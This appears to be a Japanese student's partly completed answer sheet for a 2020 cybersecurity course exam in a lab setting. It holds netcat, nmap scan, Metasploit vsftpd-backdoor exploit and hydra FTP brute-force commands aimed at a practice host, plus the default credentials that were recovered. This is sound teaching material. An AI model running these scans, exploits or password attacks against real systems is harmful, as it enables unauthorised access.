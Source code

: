 # CyberSecurity I Exam 2020 回答用紙

## 問1 [netcat]

### サーバー側コマンド

```sh
# ここに回答を記述
nc -lvp 5555
listening on [any] 5555 ...


```
### クライアント側コマンド

```sh
# ここに回答を記述
nc 192.168.33.5 5555
```

## 問2 [Password Crack]

```md
<!--  ここに回答を記述 -->

```

## 問3 [Port Scanner]

### 1. ping scan
namp -sP 192.168.33.0/24
```sh
# ここに回答を記述

```

### 2. version scan
sudo nmap -sV -O -p- 192.168.33.5
```sh

# ここに回答を記述

```

## 問4 [Metasploit Framework]
```sh
# ここに回答を記述
msfconsole
use exploit/unix/ftp/vsftpd_234_backdoor
show options
set RHOST 192.168.33.5
exploit
```

## 問5 [Online Password Cracker]


### 1. コマンド

```sh
# ここに回答を記述
hydra -L user.list -P passwd.list -t 8 192.168.33.5 ftp
```

### 2. 解析結果

```sh
# ここに回答を記述
[21][ftp] host: 192.168.33.5   login: msfadmin   password: msfadmin

```

## 問6 [Packet Sniffer]

```sh
# ここに回答を記述

```

## 問7 [不正アクセス]

### 1. rootアクセスの件数

```md
<!--  ここに回答を記述 -->
12655
```

### 2. 不正アクセスユーザーのTOP3

```md
<!--  ここに回答を記述 -->

```
### 3. IPアドレスのアクセス件数と発信国

```md
<!--  ここに回答を記述 -->

```

## 問8 [自己評価]

```md
<!--  ここに回答を記述 -->
50点です。
```

## 問9 [講義の感想]

```md
<!--  ここに回答を記述 -->
理解が遅い。
追いつけてない。

ちゃんと教科書などを読んで理解してもっと知識をえたいです。
```
